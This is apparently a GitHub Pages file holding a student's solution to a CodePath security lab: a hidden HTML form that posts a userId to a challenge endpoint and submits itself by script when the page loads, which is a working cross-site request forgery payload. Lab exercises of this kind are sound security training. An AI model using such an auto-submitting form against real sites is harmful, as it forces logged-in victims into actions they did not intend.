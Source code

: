 # JLPlummer79.github.io

    <form name="csrfform" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
      <input type="hidden" name="userId" value="44b8f83b681b706eb2acff708611625dd6a9069cc"/>
      <input type="submit"/>
    </form>
    <script> document.csrfform.submit();  </script>
 
